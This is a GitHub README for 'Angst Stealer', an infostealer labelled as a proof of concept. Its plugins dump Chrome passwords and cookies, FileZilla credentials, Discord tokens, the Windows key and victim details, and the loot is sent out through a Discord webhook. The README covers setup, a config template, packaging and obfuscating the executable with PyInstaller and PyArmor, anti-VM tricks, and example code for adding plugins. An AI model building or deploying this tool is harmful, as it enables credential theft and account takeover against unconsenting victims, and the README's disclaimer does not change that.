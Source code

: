 <h2 align="center">Angst Stealer</h2> 
<p align="center">
  <img width="1500" height="500" src="https://i.imgur.com/SwlJRar.png">
</p>

AngstStealer is a POC malware which is designed to highlight and utilize Discord as an attack vector. While it is fully functioning it was created for educational purpose's, please do not use misuse this tool. Angst Stealer currently has a total of 6 plugins:

|Plugin |Description |
|------ |----------- |
|Chrome | The chrome plugin dumps all of the users passwords, websites, and usernames. |
|Filezilla | Checks to see if the user has Filezilla installed, if they do then it dumps stored Filezilla creds. |
| Cookies | Dumps chrome cookies. |
| Discord | Dumps discord token for Chrome and Discord. |
| Send | Zips and sends all the files through the Discord webhook. |
| User | Drops userdata about the victim such as IP, Username and Computername. |
| Windows | Also drops the windows activation key for the victims computer. |

### Setup
1. Install python [here](https://www.python.org/ftp/python/3.7.7/python-3.7.7-amd64.exe)
2. Clone this repo using `git clone https://github.com/backslash/AngstStealer` or manually download it.
3. Run `cd folderpath` so that you are inside the directory itself.
4. Install the required libraries using `pip install -r requirements.txt`
5. Inside the main file you will see a config template, modify it so it matches your requirements.
```
CONFIG = {
    "webhook" : "",
    "software": {
        "chrome" : True,
        "chromecookies": True,
        "filezilla": True,
        "discord": True,
        "screenshot": True,
        "windows": True
    }
}

```

webhook -> The discord webhook link which you want it to use. </br>
chrome -> If it should include chrome passwords </br>
filezilla -> Should it include possible saved filezilla passwords</br>
windows -> Give information about your victim & includes the windows key</br>
discord -> Steal discord tokens</br>
screenshot -> takes a screenshot</br>
</br>
6. Run one of the following commands listed below, it is worth noting that pyarmor will sometimes corrupt the executable so if you plan on using the pyarmor command you should test it locally to make sure it works.</br>
`PYINSTALLER: pyinstaller --onefile --hidden-import=pkg_resources.py2_warn angst.py`</br>
`PYARMOR: pyarmor pack -e " --onefile --hidden-import=pkg_resources.py2_warn" angst.py`</br>

### To Do List
- [x] Add cookie support (just got lazy and forgot)
- [ ] Add more browsers
- [x] Implement some anti-vm tricks.
- [ ] Add more plugins

### Adding Plugins
Adding custom plugins is incredibly easy, here is a short example of how you make and integrate your own custom plugin for Angst:

1. First off you will want to create your plugin preferably in your plugins folder. The plugin can have as many function as needed, the example I provided below has one function called retrieve_data which will retrieve our sensitive data. Our dump function is needed for proper plugin integration because this is how all the functions know to dump there data.
```python
import requests

class ExamplePlugin(object):
	def __init__(self):
		self.sensitive_data = ""

	def retrieve_data(self):
		view_website = requests.get("https://api.ipify.org")
		self.sensitve_data = view_website.text

	def dump(self):
		self.retrieve_data()
		return self.sensitive_data
	
```
2. Next we want to add our example function to our main file which is `angst.py` in our `angst.py` do 
```from plugins.exampleplugin import ExamplePlugin```
change your import name on whatever you named your file and whatever you called the plugin class. 
3. Lastly we want to add it to our `config["software"]` and the `self.plugins` as show below.
```
    "software": {
        "chrome" : True,
        "chromecookies": True,
        "filezilla": True,
        "discord": True,
        "screenshot": True,
        "windows": True
    }
```
```
self.plugins = {
            "chrome": Chrome(),
            "chromecookies": Cookies(),
            "filezilla": Filezilla(),
            "discord": Discord(),
            "screenshot": Screenshot(),
            "windows": Windows()
        }
```
Make sure you use the exact same name when you put it under the config and self.plugins since it is case sensitive.


### Additional
Use this responsibly, I made this just as a demonstration of a POC. The fact that Discord still hasn't implemented any safegaurds or preventive measures when it comes to something like this is kind've embarrasing. Regardless though, using this without the consent of the computer owner is illegal.
